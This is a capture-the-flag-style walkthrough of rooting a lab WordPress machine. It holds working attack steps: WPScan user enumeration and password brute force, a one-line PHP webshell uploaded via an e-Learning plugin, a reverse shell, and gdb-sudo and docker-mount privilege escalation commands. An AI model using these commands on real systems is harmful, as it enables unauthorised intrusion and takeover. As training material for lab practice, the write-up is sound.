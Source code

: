 # Reconnaissance

We start the the recon process by using nmap
`nmap -sC -sV 192.168.0.25

![nmap scan](imgs/nmap.png)

The machine contain common 2 port that is http and ssh port. First let's view the http port in the web browser.

![web view](imgs/browser.png)

Basic things to do when viewing web page is to view the page source and find the technologies that the website use. Using Wappalyzer, we know that the web page use Wordpress version 5.3.2.

![wapplyzer](imgs/wappalyzer.png)

After knowing that the web page use the wordpress, we can use WPScan to scan the web page and look if we can found interesting information.
`wpscan --url 192.168.0.25 --enumere u`

By using WPScan user enumeration, it will scan the Wordpress detail that being use by the website and found possible user that contain in the website. Based on the scan, we found two user that can possibly exploit.

![wpuser](imgs/wpuser.png)

# Exploit

Next, let's look if there are any directory that usefull in this webpage.
`dirsearch --url 192.168.0.25 -i 200`

![dirsearch](imgs/dirsearch.png)

It's look like the webpage contain basic wordpress directory that can be access in the web browser. We can look through all the directory to check if there any info that can we collect. But first, let's run wordpress user bruteforce to get password for the user.
`wpscan --url 192.168.0.25 --passwords /wordlists/rockyou.txt`

![credFound](imgs/valid.png)

By using bruteforce, we found the password for user **reconauthor**. Now we can access /wp-login.php/ to login into the Wordpress dashboard by using the credential we found.

![wpdashboard](imgs/dashboard.png)

After successfully log in into the user Wordpress dashboard, let's enumerate the Wordpress and search for any vulnerability that can be use to enter the server system.

Viewing each post, we found one post that may be help for us. This post said to add payload and it come with e-Learning plugin to upload to zip file.

![e-learning](imgs/elearning.png)

By google a little bit about the e-Learning plugin, we found the exploit that can be use to make remote code execution into the server.

![google](imgs/google.png)

![exploitdb](imgs/exploitdb.png)

The exploit said that we can craft the webshell and zip it to upload into the e-Learning plugin. After the upload process, we can access our webshell by the given path.

So first, let's craft two file that is index.html and index.php containing the webshell. We can use simple PHP webshell in the index.php file. For the index.html file, just put any text inside it as it just to make the e-Learning plugin can identify the index.html file.

```php
<?php system($_GET['cmd']); ?>
```

Zip both of the index.html file and index.php file.
`zip exploit.zip index.html index.php`

Now is the time to upload the webshell into the Wordpress. First, add new post, next click plus button that will add block. Choose e-Learning plugin from the block and new e-Learning block will appear. Click upload then choose the zip file that we create earlier. Click upload and choose insert as iFrame then click insert. The zip file already uploaded to the system and can be access using the given path.

![insert](imgs/insert.png)

We can access the webshell by using the url
`http://192.168.0.25/wp-content/uploads/articulate_uploads/exploit/index.php?cmd=id`

The webshell can be use as remote code execution in the system.

![id](imgs/id.png)

After we get the webshell, we can establish reverse shell to connect to the system shell, we can use php-reverse-shell by pentest monkey to the the job for us. Setup the netcat listener, then upload the reverse shell file and we got the reverse shell from the server.

![reverseshell](imgs/reverseshell.png)

Let's establish [**interactive shell**](https://www.metahackers.pro/upgrade-shell-to-fully-interactive-tty-shell/) first.

# Privilege Escalation

We are now www-data user, let's check what user in this machine using /etc/passwd.

![passwd](imgs/passwd.png)

There are 3 users in the machine that is root, hacker and offensive hack. For the privilege escalation process, let's first try to check sudo access for www-data user by using `sudo -l` command.

![sudo](imgs/sudo.png)

Greate, so there are sudo permission that this user can use and it was **/usr/bin/gdb**. Let's check GTFObins if there any exploitation can be use using gdb.

![gtfobins](imgs/gtfobins.png)

So, we can get the escalate to offensivehack user by using the gdb. Run this command and we got offensivehack user shell.
`sudo -u offensivehack gdb -nx -ex '!sh' -ex quit`

![offensivehackuser](imgs/offensivehack.png)

After we got offensivehack user, we can continue our privilege escalation to get the root user. The first interesting things that we see from user id is this user can run docker command. So, let's try to do privilege escalation by exploiting docker. First, check what docker images this machine contain.

![dockerimages](imgs/dockercheck.png)

This machine contain ubuntu images. So we can find the exploitation command in the GTFObins to be use with the ubuntu images.
````
docker run -v /:/mnt --rm -it ubuntu chroot /mnt sh
````

![gtfobinsdocker](imgs/gtfobinsdocker.png)

By running the command, we got the root user and complete this machine. :D

![rootuser](imgs/root.png)

***

# Tips4Todays

- WPScan is very usefull, you can use it everytime you found Wordpress website and try to enumerate the user.
- Check the user id, it may help to find the vulnerabilities to exploit during privesc.
- Go through the all wordpress posts, files or plugins to find information that may be usefull for exploitation.

Prepared by 4jai
31/1/2023


